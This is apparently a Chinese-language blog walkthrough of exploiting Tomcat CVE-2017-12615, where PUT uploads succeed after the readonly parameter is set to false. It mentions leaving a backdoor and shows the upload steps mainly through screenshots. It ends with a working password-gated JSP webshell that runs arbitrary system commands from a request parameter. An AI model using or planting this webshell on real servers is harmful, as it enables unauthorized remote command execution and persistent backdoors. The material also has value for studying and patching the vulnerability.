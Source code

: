 ![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/8954479.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/17014498.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/74839062.jpg)

### Tomcat CVE-2017-12615 Getshell

影响版本：**7.0.0 to 7.0.79**

默认配置不受影响。留后门利用的话，需要修改默认配置文件，如下。

修改配置文件 `conf\server.xml`

添加以下内容

<init-param>  
 <param-name>readonly</param-name>  
 <param-value>false</param-value>  
 </init-param>

### 漏洞利用条件

CVE-2017-12615 需要将readonly初始化参数由默认值设置为false。但是Tomcat7.x版本中的`web.xml`配置文件中没有`readonly`参数，需要手工添加，默认配置不受此漏洞影响。

**版本--7.0.81**

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/6879452.jpg)

上传的时候出现，403禁止。。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/49583998.jpg)

**版本--7.0.79**

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/71751989.jpg)

-   put请求，上传内容
    

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/68481146.jpg)

-   访问
    

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-9-21/13765510.jpg)

-   上传一木马

```
    
    <% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b)) !=1){ out.println(new String(b)); } out.print("</pre>"); } %>
    
```
